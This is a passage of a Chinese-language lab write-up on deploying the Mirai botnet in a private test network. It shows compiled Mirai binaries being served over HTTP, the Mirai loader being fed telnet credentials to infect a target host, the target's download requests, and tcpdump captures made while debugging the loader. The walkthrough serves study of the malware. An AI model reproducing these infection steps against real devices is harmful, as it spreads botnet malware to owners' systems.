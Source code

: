 c 代码中的 server 有问题无法启动，所以需要手动起个 http，托管编译后的 mirai 文件，注意请求路径是 `/bins/mirai.*`

使用`python -m http-server` ,端口号为`server_create` 中的端口，等待后续 129 请求 mirai 的下载请求

```bash
┌──(root㉿kali)-[/home/kali/my-mirai]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.59.129 - - [12/May/2025 22:13:20] "GET /bins/mirai.x86 HTTP/1.1" 200 -
192.168.59.129 - - [12/May/2025 22:20:41] "GET /bins/mirai.x86 HTTP/1.1" 200 -
```

### 手动模拟感染

手动将 scanlisten 的凭据定向到 loader

```bash
┌──(root㉿kali)-[/home/kali/my-mirai/Mirai-Source-Code/loader]
└─# echo "192.168.59.129:23 mother:fucker" | sudo ./loader.dbg
(1/9) bins/dlr.arm is loading...
(2/9) bins/dlr.arm7 is loading...
(3/9) bins/dlr.m68k is loading...
(4/9) bins/dlr.mips is loading...
(5/9) bins/dlr.mpsl is loading...
(6/9) bins/dlr.ppc is loading...
(7/9) bins/dlr.sh4 is loading...
(8/9) bins/dlr.spc is loading...
(9/9) bins/dlr.x86 is loading...
start init server
before thread create
thread created!Bound to 192.168.59.148:0
[FD20] Called connection_open
[FD20] Established connection
TELIN: ��▒�� ��#��'
TELIN: ����������!
Hit end of input.
[FD20] Timed out
[FD20] Shut down connection
ERR|192.168.59.129:23 mother:fucker |3
```

此时使用 telnet ip port 登录目标机器是正常的，所以看两个的流量区别

#### telnet 流量

`sudo tcpdump -i any -nn -X port 23`

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
02:03:47.909824 ens160 In  IP 192.168.59.148.53934 > 192.168.59.129.23: Flags [S], seq 3995951031, win 64240, options [mss 1460,sackOK,TS val 1702712321 ecr 0,nop,wscale 7], length 0
	0x0000:  4500 003c 29df 4000 4006 1877 c0a8 3b94  E..<).@.@..w..;.
	0x0010:  c0a8 3b81 d2ae 0017 ee2d 5fb7 0000 0000  ..;......-_.....
	0x0020:  a002 faf0 7a7f 0000 0204 05b4 0402 080a  ....z...........
	0x0030:  657d 5401 0000 0000 0103 0307            e}T.........
02:03:47.909891 ens160 Out IP 192.168.59.129.23 > 192.168.59.148.53934: Flags [S.], seq 3198895807, ack 3995951032, win 65160, options [mss 1460,sackOK,TS val 1603966923 ecr 1702712321,nop,wscale 7], length 0
	0x0000:  4500 003c 0000 4000 4006 4256 c0a8 3b81  E..<..@.@.BV..;.
	0x0010:  c0a8 3b94 0017 d2ae beab 46bf ee2d 5fb8  ..;.......F..-_.
	0x0020:  a012 fe88 f894 0000 0204 05b4 0402 080a  ................
	0x0030:  5f9a 97cb 657d 5401 0103 0307            _...e}T.....
02:03:47.910118 ens160 In  IP 192.168.59.148.53934 > 192.168.59.129.23: Flags [.], ack 1, win 502, options [nop,nop,TS val 1702712322 ecr 1603966923], length 0
	0x0000:  4500 0034 29e0 4000 4006 187e c0a8 3b94  E..4).@.@..~..;.
	0x0010:  c0a8 3b81 d2ae 0017 ee2d 5fb8 beab 46c0  ..;......-_...F.
```